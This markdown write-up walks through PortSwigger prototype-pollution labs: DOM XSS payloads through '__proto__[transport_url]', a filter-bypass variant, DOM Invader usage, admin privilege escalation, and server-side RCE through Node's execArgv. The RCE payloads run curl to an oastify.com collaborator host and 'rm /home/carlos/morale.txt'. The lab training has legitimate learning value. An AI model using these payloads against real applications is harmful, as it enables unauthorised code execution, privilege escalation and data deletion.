





**Step1:** 

First we find a point where we can inject query


Here we have two places submit feedback and search blog.

After seeing the burp response for both it is slightly clear where we inject



From here one thing is clear that we can inject in search query parameter

**Step2:**

Now when I inspect page and go to searchLoggerConfigurable.js we can see



So after analysize it is clear that 

Object.defineProperty() method to make the transport_url unwritable and unconfigurable. However, notice that it doesn't define a value property

So we inject query in url

__proto__[value]=data:,alert(1);





And the lab is solved.



**Step1:**

To solve we have two approach first I will explain how to solve manually then using DOM invader.

If we view .js file for search query we have
```javascript

	async function logQuery(url, params) { 
	try { 
	await fetch(url, {method: "post", keepalive: true, body: JSON.stringify(params)}); 
	} catch(e) { 
	console.error("Failed storing query"); 
	} 
	} 
	async function searchLogger() { 
	let config = {params: deparam(new URL(location).searchParams.toString())}; 
	if(config.transport_url) { 
	let script = document.createElement('script'); 
	script.src = config.transport_url; 
	document.body.appendChild(script); 
	} 
	if(config.params && config.params.search) { 
	await logQuery('/logger', config.params); 
	} 
	} 
	window.addEventListener("load", searchLogger);
```

From here on thing is clear that

• Dynamic Script Injection:
	• The code creates a script element and assigns its src attribute to config.transport_url without proper validation. If an attacker can manipulate the transport_url, they could point it to a malicious script. This allows for cross-site scripting (XSS) attacks.


So to solve this we use __proto__[transport_url]=data:,alert(10) 


Solving using dom-invader

Enabling DOM invader 

We  have a burpsuite sign at top right


Click on it and under DOM invader turn on "DOM invader is on" option

And under attack turn on prototype pollution .


**Step3:**

Now refresh page and under DOM-invader we have


Click on scan for gadget and we have sink


Simple click on exploit and we have exploit in url


And Lab is solved.


**Step1:**

To solve this lab manual we first view 
```javascript
	async function logQuery(url, params) {
	    try {
	        await fetch(url, {method: "post", keepalive: true, body: JSON.stringify(params)});
	    } catch(e) {
	        console.error("Failed storing query");
	    }
	}
	
	async function searchLogger() {
	    window.macros = {};
	    window.manager = {params: $.parseParams(new URL(location)), macro(property) {
	            if (window.macros.hasOwnProperty(property))
	                return macros[property]
	        }};
	    let a = manager.sequence || 1;
	    manager.sequence = a + 1;
	
	    eval('if(manager && manager.sequence){ manager.macro('+manager.sequence+') }');
	
	    if(manager.params && manager.params.search) {
	        await logQuery('/logger', manager.params);
	    }
	}
	
	window.addEventListener("load", searchLogger);
```

1. Notice that the manager.sequence property is passed to eval(), but this isn't defined by default.
When I add this in url

`/?__proto__.hello=world`

And then in inspect when I use Object.prototype

It show hello property with value world


**Step2:**

Now we use 
/?__proto__.sequence=alert(1)

When we run this it given error in consolve. So we use alert(1) -

And the alert is trigger


Using DOM invader

**Step1:**

Refresh page we have source 


Click on scan for gadget

**Step2:**


And we have one sink found click on exploit

**Step3:**

In url append exploit with -


And the lab is solved.


?__pro__proto__to__[transport_url]=data:,alert(1);


**Step1:**

First we analyze 


Example:
This script logs query parameters from the URL on page load, potentially sending them to a server (/logger) if the search parameter exists. It also sanitizes keys to prevent prototype pollution by removing dangerous properties like constructor and `__proto__`

**Step2:**

Now we apply different payload to.

After few payload we come to conclusion that that this can trigger the alert

`?__pro__proto__to__[transport_url]=data:,alert(1);`


**Step1:**

First we login with given credential

**Step2:**

Click on button so we have updated billing and delivery address


**Step3:**

Now when we analyze POST /my-account/change-address we can see in response we have admin parameter.

**Step4:**

If we simply try to inject parameter we can see in result it reflect


Here we see that admin is set to false and secondly we have to inject a prototype so we escalate.

**Step5:**


Here we can see that we are able to override admin parameter.

**Step6:**

So now we end a post reuqest to /admin and we can see in response we have


Simply Send a post request to /delete endpoint with carlos parameter


And the lab is solved.


**Step1:**

Login with given credential

**Step2:**

Click on submit to update detail


**Step3:**

Send the /my-account/change-address to repeater.


Here we can see there are different parameter in response.
And currentyl I have no idea which vulnerabilty is there
• Status code override
• JSON spaces override
• Charset override


**Step3:**
If I try to change admin function using  prototype pollution. 


We can see that admin is set to true. But we have no such /admin point to work with

**Step5:**

If I make a syntax error we can see in response


We can see in response we have status code. So we change it using same logic


To trigger toe status we again make a syntax error this time we can see change status code. But we use status code between 400 and 599


And the Lab is solved.


**Step1:**

To check server side prototype pollution we use extension server side prototype pollution.

**Step2:**

Login with given credential and click on submit to update address. Secondly go to admin panel and click on Maintenance button.

**Step3:**

Send the POST /my-account/change-address request to repeater 


Now right click on right click under extension-> server side prototype pollution scanner->server side prototype pollution

Now under extension we can see


In Burp professional this is also this on DashBoard->issue activity


As json spacing is mention first we try by adding 10 char space


**Step4:**

Now we try the payload to execute a command by providing command line argument  in node js using execArgv 
```javascript
"__proto__": {
    "execArgv":[
   "--eval=require('child_process').execSync('curl a6hwdbmkot68ytdmo4ilpsxe95fw3mrb.oastify.com')"
    ]
}
```

Here a6hwdbmkot68ytdmo4ilpsxe95fw3mrb.oastify.com is my collaborator id to confirm


Here we can see in responce the value is set 

Now go to POST /admin/jobs  endpoint and send request in reponce we can  se message and confirm it from collaborator


In collaborator we have


**Step5:**

Now we have to execute a code on server side. Simply replace curl colaborator id with rm /home/carlos/morale.txt

```javascript
"__proto__": {
    "execArgv":[
   "--eval=require('child_process').execSync('rm /home/carlos/morale.txt')"
    ]
}
}
```


Now we again go to POST /admin/jobs and send request


And the Lab is solved.

